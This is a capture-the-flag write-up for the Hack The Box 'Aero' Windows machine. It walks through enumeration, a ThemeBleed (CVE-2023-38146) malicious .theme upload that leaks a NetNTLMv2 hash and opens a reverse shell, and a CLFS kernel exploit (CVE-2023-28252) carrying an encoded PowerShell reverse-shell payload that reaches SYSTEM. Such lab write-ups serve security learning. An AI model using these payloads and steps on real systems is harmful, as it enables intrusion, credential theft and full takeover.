

Box: Windows 
Level: Medium
### Index
1. [Box Info](#Box%20Info)
2. [Initial Nmap](#Initial%20Nmap)
3. [Web Enumeration](#Web%20Enumeration)
	1. [`Directory Enumeration`](#`Directory%20Enumeration`)
	2. [`Sub Domain Enuemratoin`](#`Sub%20Domain%20Enuemratoin`)
	3. [`File Enumeration`](#`File%20Enumeration`)
	4. [`Themes Arbitrary Code Execution CVE-2023-38146`](#`Themes%20Arbitrary%20Code%20Execution%20CVE-2023-38146`)
	5. [`Generating DLL`](#`Generating%20DLL`)
	6. [`Preparing exploit.theme file and grabbing Reverse Shell`](#`Preparing%20exploit.theme%20file%20and%20grabbing%20Reverse%20Shell`)
4. [Privilege Escalation](#Privilege%20Escalation)
	1. [`winPEAS Findings`](#`winPEAS%20Findings`)
	2. [`CVE-2023-28253 - Common Log File System`](#`CVE-2023-28253%20-%20Common%20Log%20File%20System`)
### Box Info
```
Aero is a medium-difficulty Windows machine featuring two recent CVEs: CVE-2023-38146 , affecting Windows 11 themes, and CVE-2023-28252 , targeting the Common Log File System (CLFS). Initial access is achieved through the crafting of a malicious payload using the ThemeBleed proof-of-concept, resulting in a reverse shell. Upon gaining a foothold, a CVE disclosure notice is found in the user&amp;amp;#039;s home directory, indicating vulnerability to CVE-2023-28252 . Modification of an existing proof-of-concept is required to facilitate privilege escalation to administrator level or code execution as NT Authority\SYSTEM.
```

### Initial Nmap
```
# nmap -p- --min-rate=1000 -Pn aero.htb
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 111.97 seconds
```

### Web Enumeration

`X-Powered-By: ARR/3.0` From Burp HTTP Response upon opening http://aero.htb/
`Server: Microsoft-IIS/10.0`
`X-Powered-By: ARR/3.0`
###### `Directory Enumeration`
```
# gobuster dir -u http://aero.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/home                 (Status: 200) [Size: 11650]
/Home                 (Status: 200) [Size: 11650]
/upload               (Status: 405) [Size: 0]
/Upload               (Status: 405) [Size: 0]
/HOME                 (Status: 200) [Size: 11650]
/%3FRID%3D2671        (Status: 200) [Size: 11650]
```
###### `Sub Domain Enuemratoin`
```
# wfuzz -c -w /usr/share/wordlists/amass/subdomains-top1mil-20000.txt --hl 186 -H "Host: FUZZ.aero.htb" -u http://aero.htb
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                
=====================================================================
000002700:   400        6 L      26 W       334 Ch      "m."                                                                                             
000002795:   400        6 L      26 W       334 Ch      "ns2.cl.bellsouth.net."                                                                          
000002885:   400        6 L      26 W       334 Ch      "ns2.viviotech.net."                 
Total time: 0
Processed Requests: 20000
Filtered Requests: 19974
Requests/sec.: 0
```

```
# ffuf -H "Host: FUZZ.aero.htb" -u http://aero.htb/ -mc 200 -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -fl 187
 :: Method           : GET
 :: URL              : http://aero.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/amass/subdomains-top1mil-5000.txt
 :: Header           : Host: FUZZ.aero.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Response lines: 187
________________________________________________
:: Progress: [5000/5000] :: Job [1/1] :: 155 req/sec :: Duration: [0:00:23] :: Errors: 0 ::
```
###### `File Enumeration`
```
# gobuster dir -u http://aero.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,php,txt,conf,inc,zip
Nothing Interesting found durign this so not posting the reuslt. 
```


The Web application allow us to upload file. Let's test it out. During the enumeration, I ran Bur's Intruder that was keep failing for a lot for file extension.
I was using `/usr/share/wordlist/seclists/Fuzzing/file-extension-lower-case.txt` to Fuzz the allowed file type and found that `.theme` file is allowed to upload. I ran the test case using HTTP request/response pair.
```
POST /upload HTTP/1.1
Host: aero.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://aero.htb/
Content-Type: multipart/form-data; boundary=---------------------------116552671035746800162870727843
Content-Length: 227
Origin: http://aero.htb
Connection: keep-alive
Cookie: .AspNetCore.Antiforgery.SV5HtsIgkxc=CfDJ8DKDuhJ6I2pFs7Foyhkaq-eAH3VS8Y0PyCe2Am2u3aMIo0MybkXcuQPl-kL9nmfAwBveVlghhzSe0NJQqOBoGYhxe6O_PjoqF1oGnAbzGsOSDU5T5Sq31Fn5lF_ec1yAfMz2LK_QdrU_c_37dUpoR9g

-----------------------------116552671035746800162870727843
Content-Disposition: form-data; name="file"; filename="test.theme"
Content-Type: text/plain

asdf
-----------------------------116552671035746800162870727843--

==================================================================================================================================
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Server: Microsoft-IIS/10.0
X-Powered-By: ARR/3.0
Date: Wed, 04 Sep 2024 04:34:09 GMT
Content-Length: 82

{"success":true,"message":"Once we test your theme it will be added to the site!"}
```

I googled up `Windows Theme File Extension .theme` and Found that there was a Themebleed- Windows 11 Themes Arbitrary Code Execution CVE-2023-38146 might work.

###### `Themes Arbitrary Code Execution CVE-2023-38146`
I googled and found that [CVE-2023-38146: Arbitrary Code Execution via Windows Themes](https://exploits.forsale/themebleed/) can be used. Let's try it out. Here are the couple of important repo that I have used to grab a reverse Shell

[ThemeBleed Reverse Shell DLL](https://github.com/Jnnshschl/ThemeBleedReverseShellDLL)  This Repo was used to Generate the `Release` version of the stage_3 DLL. 
[ThemeBleedPy](https://github.com/Durge5/ThemeBleedPy) This Repo was used to deliver the `exploit.theme` file and grab a reverse shell. 
[CVE-2023-38146](https://github.com/Jnnshschl/CVE-2023-38146) Grab Aero.msstyles from this repo.

###### `Generating DLL`
Using [ThemeBleed Reverse Shell DLL](https://github.com/Jnnshschl/ThemeBleedReverseShellDLL) I opened up the Repo in my Visual Studio Code 2022. Don't use VS Code 2019. Edit the `main.cpp` file and it should look like this.


The `10.10.14.2` is my `tun0` IP. Now you should prepare the `Release` Build. Do not waste your time digging into `Debug Build`. This will prepare your DLL under the `Release` Folder on your windows machine.


###### `Preparing exploit.theme file and grabbing Reverse Shell`

Now you will to pull the second GitHub Repo from the link above. [ThemeBleedPy](https://github.com/Durge5/ThemeBleedPy) Once the GitHub Repo is on your Kali, You will need to copy the above `ThemeBleedReverseShell.dll` in to the `ThemeBleedPy` Repo Folder and rename it as `stage_3`. There's already `stage_3` present in that folder which will open `calc.exe` on the target host. But We want a reverse shell. If you do `file *` command in the `ThemeBleedPy` than you will notice that these are PE32+ Executable DLLs. Apparently PE32+ Executable DLLs uses a different file signature as compared to the usual DLLs on Windows Environment. [Read this article](https://en.wikipedia.org/wiki/MSSTYLES)




Notice that I have `Aero.msstyles` present in this directory which was downloaded from [CVE-2023-38146](https://github.com/Jnnshschl/CVE-2023-38146) This repo.

Okay so we will need to copy our `ThemeBleedReverseShell.dll` file into `ThemeBleedPy` directory. Rename the existing `stage_3` file as `oldstage_3` and put your `ThemeBleedReverseShell.dll` and rename it to `stage_3`. Now your `ThemeBleedReverseShell.dll` has built-in reverse shell code which gives you the shell on `Port 4471`.

Now we are going to start the NetCat Listener and run `ThemeBleedPy.py` 
```
# python ThemeBleedServer.py
09/04/2024 02:35:48 AM: INFO: Config file parsed
```

```
# nc -lvnp 4711     
listening on [any] 4711 ...
```

Before we upload the `exploit.theme` file onto our target, we will need to put our `tun0` IP (Attacker's IP) in it as well. So that when the target tries to fetch the `Aero.msstyle` file, It authenticates to our SMB server which we have started above using `python ThemeBleedServer.py` Command. Here's my `exploit.theme` file looked like.
```
# cat exploit.theme                 
; windows 11 ThemeBleed PoC
; copyright Durge - not a real copyright 

[Theme]
DisplayName=@%SystemRoot%\System32\themeui.dll,-2060

[Control Panel\Desktop]
Wallpaper=%SystemRoot%\web\wallpaper\Windows\img0.jpg
TileWallpaper=0
WallpaperStyle=10

[VisualStyles]
Path=\\10.10.14.2\share\Aero.msstyles
ColorStyle=NormalColor
Size=NormalSize

[MasterThemeSelector]
MTSM=RJSPBS
```

Cool! Let's upload it on the target.


As soon as you click `Upload File`, you will notice following on your `ThemeBleedServer.py` Terminal Window
```
# python ThemeBleedServer.py
09/04/2024 02:35:48 AM: INFO: Config file parsed

09/04/2024 02:36:23 AM: INFO: Incoming connection (10.10.11.237,55391)
09/04/2024 02:36:23 AM: INFO: AUTHENTICATE_MESSAGE (AERO\sam.emerson,AERO)
09/04/2024 02:36:23 AM: INFO: User AERO\sam.emerson authenticated successfully
09/04/2024 02:36:23 AM: INFO: sam.emerson::AERO:aaaaaaaaaaaaaaaa:d45fb0b0cfc4a28631a0929fa39ba5ee:010100000000000080cd57c294feda013970e3aa0f47f6f00000000001001000510054006300540041004a005100770003001000510054006300540041004a0051007700020010007a00440063007a0047006f004c007400040010007a00440063007a0047006f004c0074000700080080cd57c294feda0106000400020000000800300030000000000000000000000000200000ae232a7de5d18c3f5134502a2ea0e634c7103ed70809d3a898f656e6a4b24f360a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0032000000000000000000
09/04/2024 02:36:23 AM: INFO: Connecting Share(1:IPC$)
09/04/2024 02:36:23 AM: INFO: Connecting Share(2:share)
Client requested stage 1 - Version Check
Client requested stage 1 - Version Check
Client requested stage 1 - Version Check
Client requested stage 1 - Version Check
Client requested stage 2 - Verify Signature
Client requested stage 2 - Verify Signature
Client requested stage 2 - Verify Signature
Client has requested stage 3 - Load library
Client has requested stage 3 - Load library
```

And you should see the Reverse Shell where your NetCat Listener was running on `Port 4711`

```
# nc -lvnp 4711     
listening on [any] 4711 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.237] 55392
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
aero\sam.emerson
```

Get your User Flag.

### Privilege Escalation

###### `winPEAS Findings`
```
OS Name: Microsoft Windows 11 Pro N
OS Version: 10.0.22000 N/A Build 22000
Hotfixes: KB5004342, KB5010690, KB5012170, KB5026038, KB5026910, KB5023774, KB5029782
PSModulePath: C:\Users\sam.emerson\Documents\WindowsPowerShell\Modules; C:\Program Files\WindowsPowerShell\Modules; C:\Windows\system32\WindowsPowerShell\v1.0\Modules
TEMP: C:\Users\SAM~1.EME\AppData\Local\Temp            # NOTICE The SHORT PATH (SAM~1.EME)

########## Installed .NET versions
  CLR Versions
   4.0.30319
  .NET Versions    
   4.8.04161
  .NET & AMSI (Anti-Malware Scan Interface) support  
      .NET version supports AMSI     : True
      OS supports AMSI               : True
        [!] The highest .NET version is enrolled in AMSI!

########## Current Token privileges
# Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#token-manipulation
    SeShutdownPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeUndockPrivilege: DISABLED
    SeIncreaseWorkingSetPrivilege: DISABLED
    SeTimeZonePrivilege: DISABLED

########## Home folders found
    C:\Users\Public : Interactive [WriteData/CreateFiles]
    C:\Users\sam.emerson : sam.emerson [AllAccess]

########## Vulnerable Leaked Handlers
#  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation
# Getting Leaked Handlers, it might take some time...

    Handle: 1824(key)
    Handle Owner: Pid is 7296(Microsoft.Photos) with owner: sam.emerson
    Reason: FullControl
    Registry: HKLM\
    
    Handle: 1484(key)
    Handle Owner: Pid is 7900(winPEASany) with owner: sam.emerson
    Reason: AllAccess
    Registry: HKU\s-1-5-21-3555993375-1320373569-1431083245-1001\software\policies\microsoft\windows\currentversion\internet settings

########## Modifiable Services
# Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)
    wcncsvc: GenericExecute (Start/Stop)
    BcastDVRUserService_4838a: GenericExecute (Start/Stop)
    ConsentUxUserSvc_4838a: GenericExecute (Start/Stop)
    CredentialEnrollmentManagerUserSvc_4838a: GenericExecute (Start/Stop)
    DeviceAssociationBrokerSvc_4838a: GenericExecute (Start/Stop)
    DevicePickerUserSvc_4838a: GenericExecute (Start/Stop)
    DevicesFlowUserSvc_4838a: GenericExecute (Start/Stop)
    PimIndexMaintenanceSvc_4838a: GenericExecute (Start/Stop)
    PrintWorkflowUserSvc_4838a: GenericExecute (Start/Stop)
    UdkUserSvc_4838a: GenericExecute (Start/Stop)
    UnistoreSvc_4838a: GenericExecute (Start/Stop)
    UserDataSvc_4838a: GenericExecute (Start/Stop)
    WpnUserService_4838a: GenericExecute (Start/Stop)

########## Installed Applications --Via Program Files/Uninstall registry--
# Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
    C:\Program Files\Reference Assemblies

########## Autorun Applications
# Check if you can modify other users AutoRuns binaries (Note that is normal that you can modify HKCU registry and binaries indicated there) https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries 

	RegPath: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    RegPerms: sam.emerson [FullControl]
    Key: OneDrive
    Folder: C:\Users\sam.emerson\AppData\Local\Microsoft\OneDrive
    FolderPerms: sam.emerson [AllAccess]
    File: C:\Users\sam.emerson\AppData\Local\Microsoft\OneDrive\OneDrive.exe /background
    FilePerms: sam.emerson [AllAccess]

	RegPath: HKLM\Software\Microsoft\Active Setup\Installed Components\{2C7339CF-2B09-4501-B3F3-F3508C9228ED}
    Key: StubPath
    Folder: \
    FolderPerms: Authenticated Users [AppendData/CreateDirectories]
    File: /UserInstall

########## Current Active Window Application
    Calculator

########## Looking for possible password files in users homes
#  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml

```

Upon Looking at the following directory I found two files.
```
PS C:\USers\sam.emerson\Documents> dir                     

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         9/21/2023   9:18 AM          14158 CVE-2023-28252_Summary.pdf                                           
-a----         9/26/2023   1:06 PM           1113 watchdog.ps1                                                         
```

Looking at `CVE-2023-28252_Summary.pdf`, We notice that we are going to deal with it for the privilege escalation. 


###### `CVE-2023-28253 - Common Log File System`

Out Of Bound Write: The Out of bound write data can modify the data outside the bound of buffer. We are going to do that here for `clfs.sys` driver. To capture the root flag, We will need to clone the following GitHub Repo into our Visual Studio Code. I used VSCode 2019. 

[CVE-2023-28252](https://github.com/fortra/CVE-2023-28252?)

Once the GitHub Repo is cloned, I would definitely encourage to read **EVERYTHING** mentioned in the Repo. It took me like 3 hours to understand how it works and by the time I'm writing this, half of the things is evaporated. So I will definitely do this box again and again until I understand this Priv Esc Part. But Long Story Short, We will need to put our payload at the end of the exploit code. I generated my payload using https://www.revshells.com/ 


Here's the payload part look like in `clfs_eop.cpp`
```
if (strcmp(username, "SYSTEM") == 0){
			printf("WE ARE SYSTEM\n");
			system("powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgAiACwANQA1ADUANQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=");
			
		}
```

One thing that you will need to set is `Character Set`.  Set it to `Multi-Byte Character Set`


Now prepare a `Release` build.

Get it on the box and run it Also, Start the NetCat Listener on `Port 5555`

```
PS C:\Users\sam.emerson\Documents> .\clfs_eop.exe
.\clfs_eop.exe
[+] Incorrect number of arguments ... using default value 1208 and flag 1 for w11 and w10

ARGUMENTS
[+] TOKEN OFFSET 4b8
[+] FLAG 1

VIRTUAL ADDRESSES AND OFFSETS
[+] NtFsControlFile Address --> 00007FFF2A7A4240
[+] pool NpAt VirtualAddress -->FFFF948AFF041000
[+] MY EPROCESSS FFFFB8872B1C3180
[+] SYSTEM EPROCESSS FFFFB887230E8040
[+] _ETHREAD ADDRESS FFFFB8872314B080
[+] PREVIOUS MODE ADDRESS FFFFB8872314B2B2
[+] Offset ClfsEarlierLsn --------------------------> 0000000000013220
[+] Offset ClfsMgmtDeregisterManagedClient --------------------------> 000000000002BFB0
[+] Kernel ClfsEarlierLsn --------------------------> FFFFF80046B43220
[+] Kernel ClfsMgmtDeregisterManagedClient --------------------------> FFFFF80046B5BFB0
[+] Offset RtlClearBit --------------------------> 0000000000343010
[+] Offset PoFxProcessorNotification --------------------------> 00000000003DBD00
[+] Offset SeSetAccessStateGenericMapping --------------------------> 00000000009C87B0
[+] Kernel RtlClearBit --------------------------> FFFFF80049B43010
[+] Kernel SeSetAccessStateGenericMapping --------------------------> FFFFF8004A1C87B0

[+] Kernel PoFxProcessorNotification --------------------------> FFFFF80049BDBD00


PATHS
[+] Folder Public Path = C:\Users\Public
[+] Base log file name path= LOG:C:\Users\Public\60
[+] Base file path = C:\Users\Public\60.blf
[+] Container file name path = C:\Users\Public\.p_60
Last kernel CLFS address = FFFF948AFAFDB000
numero de tags CLFS founded 18

Last kernel CLFS address = FFFF948B00336000
numero de tags CLFS founded 1

[+] Log file handle: 00000000000000F4
[+] Pool CLFS kernel address: FFFF948B00336000

number of pipes created =5000

number of pipes created =4000
TRIGGER START
System_token_value: 4141414141414141
TRYING AGAIN
TRIGGER START
System_token_value: 4141414141414141
TRYING AGAIN
TRIGGER START
System_token_value: FFFF948AF88654FB
SYSTEM TOKEN CAPTURED
Closing Handle
ACTUAL USER=SYSTEM
#< CLIXML
```

```
# nc -lvnp 5555        
listening on [any] 5555 ...

connect to [10.10.14.2] from (UNKNOWN) [10.10.11.237] 62351
PS C:\Users\sam.emerson\Documents> whoami
nt authority\system

```

Get Your Root Flag